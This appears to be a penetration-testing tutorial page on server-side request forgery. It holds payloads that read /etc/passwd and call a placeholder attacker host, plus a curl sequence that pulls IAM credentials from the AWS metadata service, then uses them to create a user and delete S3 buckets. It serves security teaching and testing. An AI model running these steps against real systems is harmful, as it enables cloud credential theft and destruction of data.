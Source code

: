 # Server-side request forgery

Server-side request forgery \(SSRF\) exploits the trusted relationship between a web server and other backend systems which are not normally accessible to an attacker \(e.g. because of firewalls or application rules\). They are particularly dangerous in cloud infrastructure like AWS, because SSRF allows an attacker to query internal services like [Amazon's metadata API](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) for credentials and other sensitive data.

## Techniques

### Basic

Generally, you'll be looking for poorly-sanitized parameters which accept URLs, either in `GET` or `POST` requests. In the examples below, `localhost` is used in the URL to access to data and services which are only accessible via the local network.

Example `GET` request with a vulnerable open redirect:

```text
http://[host]/page?url=http://localhost/api/getuser/id/1
```

Example `POST` request with a similarly unsanitized URL parameter:

```text
POST /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

url=http://localhost:1234
```

Some SSRF attacks will return a response that you can see on the vulnerable website, but others may be blind.

You can also test protocols other than HTTP:

```text
http://[host]/page.php?url=file:///etc/passwd
http://[host]/page.php?url=dict://[evilhost]:1234/
http://[host]/page.php?url=sftp://[evilhost]:1234/
http://[host]/page.php?url=ldap://localhost:1234/%0astats%0aquit
```

### Attacking AWS with SSRF

Amazon's AWS has an internal metadata service which can be queried from any instance. Attackers can use SSRF vulnerabilities to retrieve instance information and in some cases make changes to the infrastructure. [Amazon's CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-instances.html) performs a similar function.

There are two metadata standards for the AWS API - the newest one requires you to generate a short-term token before issuing commands. However, the older non-token version does not seem to be going away, so you could simply use `curl http://169.254.169.254/whatever` to get the same data.

The following command from [Amazon's metadata documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) allows you to generate a 6-hour token, save it in a variable and display the top-level metadata items:

```text
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
```

The top-level metadata items will look something like this: 

```text
ami-id
ami-launch-index
...
public-keys/
security-groups
```

From there, you can make calls to the API to view each of the metadata items in detail. 

For example, the following command lets you view startup scripts for the instance, which may reveal credentials or paths to sensitive S3 buckets:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/user-data/
```

To view roles for the instance:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Once you have a role name, you can request credentials for that role: 

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/SomeRole

{
  "Code" : "Success",
  "LastUpdated" : "2019-12-03T18:08:16Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "V...",
  "Token" : "SomeBase64==",
  "Expiration" : "2019-12-04T00:17:43Z"
}
```

At this point you may want to consider automated AWS metadata enumeration tools like [Nimbostratus](https://andresriancho.github.io/nimbostratus/) to determine the permissions available to a role:

```text
sudo python nimbostratus dump-permissions --access-key=ASIA... --secret-key=V...
```

You can also attempt to create a new user, as a proof-of-concept:

```text
sudo python nimbostratus create-iam-user --access-key=ASIA... --secret-key=p...
```

#### Enumerating S3 buckets

The [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3.html) can be used to poke around connected S3 buckets. Some useful commands:

```text
aws s3 mb s3://bucket-name            # create a bucket
aws s3 ls                             # list buckets
aws s3 ls s3://bucket-name            # list things in a bucket
aws s3 rb s3://bucket-name --force    # delete bucket + contents
```

## Further reading

* [SSRF: Web Security Academy](https://portswigger.net/web-security/ssrf)
* [SSRF: types and exploits](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
* [SSRF and the CapitalOne breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [Nimbostratus: tools for fingerprinting and exploiting Amazon](https://andresriancho.github.io/nimbostratus/)
* [Pacu: Amazon exploitation framework](https://github.com/RhinoSecurityLabs/pacu)
* [SSRF payloads for many cloud providers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

